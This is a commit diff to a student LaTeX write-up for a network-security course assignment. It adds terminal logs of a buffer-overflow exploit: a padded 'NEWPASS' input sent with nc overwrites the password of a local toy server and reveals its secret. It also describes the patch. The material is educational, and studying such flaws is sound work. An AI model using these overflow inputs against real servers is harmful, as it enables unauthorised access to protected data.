

Before and after one commit to sdv4/Network-Security, a LaTeX document (A1/writeup/readme.tex): part of the page before the commit and two parts of pages 1 and 2 of 2 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Currently working on sample exploit

```diff
--- a/A1/writeup/readme.tex
+++ b/A1/writeup/readme.tex
@@ -4,9 +13,15 @@
+\long\def\@makecaption#1#2{%
+	\vskip\abovecaptionskip
+		\bfseries #1: #2\par
+	\vskip\belowcaptionskip}%
+\makeatother
 
 \title{Assignment 1 \\CPSC 526 Fall 2017 \\ October 1, 2017}
 \author{
 \begin{tabular}{c c}
 Mason Lieu & Shane Sims\tabularnewline
 ID: 10110089 & ID: 00300601\tabularnewline
+Tutorial 03 & Tutorial 04 \tabularnewline
 \url{mlieu@ucalgary.ca} & \url{shane.sims@ucalgary.ca}
 \end{tabular}}
 \date{}
@@ -20,4 +35,39 @@ The vulnerability can be found in the readLineFromFd function where it reads fro
 \section*{Task 2 - Fix the vulnerability}
 The vulnerability can be removed from the readLineFromFd function by reading from the socket an amount equal to the size of the buffer. This ensures that a buffer overflow does not take place and the server's data is protected from this exploit.
 
+\section*{How to compile and run our patch}
+Our patched server is compiled and run the same as the original server.
+
+\section*{Sample exploit of the original server}
+\begin{lstlisting}[style=terminal, title={Server side}]
+Masons-MacBook-Pro:a1 MasonL$ ./secretServer 1234 pass 'My favourite number is 42.'
+Waiting for a new connection...
+Talking to someone.
+Someone used an incorrect password.
+Waiting for a new connection...
+Talking to someone.
+Someone used an incorrect password.
+Waiting for a new connection...
+Talking to someone.
+Someone used the correct password.
+Waiting for a new connection...
+\end{lstlisting}
+\begin{lstlisting}[style=terminal, title={Client side}]
+Masons-MacBook-Pro:a1 MasonL$ nc localhost 1234
+Secret Server 1.0
+NEWPASS
+I am not talking to you, bye!
+Masons-MacBook-Pro:a1 MasonL$ nc localhost 1234
+Secret Server 1.0
+11111111112222222222333333333344NEWPASS
+I am not talking to you, bye!
+Masons-MacBook-Pro:a1 MasonL$ nc localhost 1234
+Secret Server 1.0
+NEWPASS
+The secret is: My favourite number is 42.
+\end{lstlisting}
+
+Line 1 of the server side shows the initialization of the server with the password = 'pass' and the secret.
+
+
 \end{document}
```
Also changed, not shown: A1/writeup/readme.pdf, A1/writeup/readme.tex (11 more changed lines), 2 other files.
